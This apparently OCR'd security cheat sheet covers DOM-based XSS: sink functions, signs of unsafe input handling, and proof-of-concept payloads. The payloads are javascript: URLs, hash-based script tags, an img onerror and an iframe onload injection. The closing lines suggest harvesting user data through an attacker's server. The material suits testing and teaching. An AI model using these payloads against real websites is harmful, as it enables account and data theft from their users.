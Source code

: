 ▪ The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:   
document.write() | document.writeln() | document.domain | element.innerHTML | element.outerHTML | element.insertAdjacentHTML | element.onevent

▪ The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:
add() | after() | append() | animate() | insertAfter() | insertBefore() | before() | html() | prepend() | replaceWith() | wrap() | wrapInner() | wrapAll() | has() | constructor() | init() | index() | jQuery.parseHTML() | $.parseHTML()

▪ Identifying Weaknesses in Input Handling:
• Look for the direct usage of these inputs in dangerous functions, such as:
  - eval(), setTimeout(), or setInterval() when passing string values.
  - innerHTML or outerHTML, which may directly render content.
  - document.write() or document.writeln().
  - addEventListener() or any function that executes JavaScript code based on user inputs.
  - As soon as you find the first link followed by a secondary link, the parameter is usually named returnurl, url, or returnpath. Inject the code javascript:confirm() into it, or look for bypass techniques.
  - Example: `?returnUrl=javascript:alert(document.domain)`

- If the application displays content based on `document.location.hash`:
  Example: 
  ```html
  http://example.com/#<script>alert('XSS')</script>
  ```

- When using `innerHTML` with unsanitized data:
  Example: 
  ```html
  <img src=x onerror=alert('XSS')>
  ```

- Using functions like `eval()` with URL parameters:
  Example: 
  ```html
  http://example.com/?input=alert('XSS')
  ```

- First, we create a regular `.txt` file, let's assume its name is `xss.txt`. Then, we write the following code inside it:
  ```html
  <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
  ```

- Next, we convert the file to an HTML file like this:
  `xss.txt -> xss.html`, and then open the file. What happens is that we can pull data remotely. So, if we set up a server, we can remotely collect a copy of the user's data.

